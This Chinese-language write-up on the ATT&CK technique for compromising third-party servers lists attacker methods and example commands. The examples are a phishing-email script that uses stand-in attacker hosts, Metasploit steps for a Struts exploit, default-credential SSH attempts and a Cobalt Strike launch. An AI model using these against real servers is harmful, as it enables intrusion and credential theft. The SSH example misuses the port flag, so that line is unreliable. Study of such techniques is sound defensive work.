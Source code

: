 # T1584-004-入侵基础设施-服务器

## 描述
在入侵目标组织之前，攻击者可能通过劫持第三方服务器来支持目标定位和攻击执行。这些服务器可以是物理服务器、虚拟服务器或网络服务器（Web服务器），常被称为“肉鸡”或跳板机。攻击者通过入侵第三方服务器，可以利用其计算资源和网络位置开展恶意活动，如命令与控制（C2）、水坑攻击、路过式下载（Drive-by Compromise）、钓鱼网站托管或数据泄露。相比于购买或租用服务器，入侵第三方服务器成本更低，且因服务器归属第三方，增加了攻击者被追踪的难度。

攻击者可能通过以下方式入侵服务器：
- **凭据窃取**：通过钓鱼、凭据填充或恶意软件获取服务器管理员的账户凭据。
- **漏洞利用**：利用服务器操作系统或服务（如Apache、Nginx、SSH、RDP）的已知漏洞获得控制权。
- **弱配置利用**：利用默认密码、开放端口或错误配置的服务入侵服务器。
- **社会工程**：通过伪装身份攻击服务器托管提供商的客户支持，获取账户访问权限。
- **供应链攻击**：通过第三方软件或服务（如管理工具）间接入侵服务器。

入侵的服务器可用于攻击生命周期的多个阶段，如C2通信（T1102）、水坑攻击（T1189）或钓鱼（T1566），并因其与合法实体的关联而更难被检测。

## 测试案例
以下是模拟攻击者入侵服务器的常见方法和案例：
- **凭据窃取**：
  - 通过钓鱼邮件获取服务器管理员的登录凭据。
  - 示例：伪装为托管提供商发送密码重置邮件：
    ```python
    import smtplib
    from email.mime.text import MIMEText
    msg = MIMEText("Reset your password: http://fake-host.com/reset")
    msg['Subject'] = 'Urgent: Server Account Reset'
    msg['From'] = 'support@fake-host.com'
    msg['To'] = 'admin@target.com'
    with smtplib.SMTP('smtp.attacker.com') as server:
        server.login('user', 'pass')
        server.send_message(msg)
    ```
- **漏洞利用**：
  - 利用Apache Struts漏洞（如CVE-2017-5638）执行远程代码，控制Web服务器。
    ```bash
    # 使用Metasploit攻击Apache Struts
    msfconsole
    use exploit/multi/http/struts2_content_type_ognl
    set RHOST <SERVER_IP>
    exploit
    ```
- **弱配置利用**：
  - 扫描服务器开放端口，尝试默认凭据登录SSH或RDP。
    ```bash
    # 使用Nmap扫描开放端口
    nmap -p 22,3389 <SERVER_IP>
    # 尝试默认SSH登录
    ssh admin@<SERVER_IP> -p default_password
    ```
- **服务器用途**：
  - **C2服务器**：在入侵的服务器上部署Cobalt Strike：
    ```bash
    # 启动Cobalt Strike
    ./teamserver <SERVER_IP> <password> /path/to/profile
    ```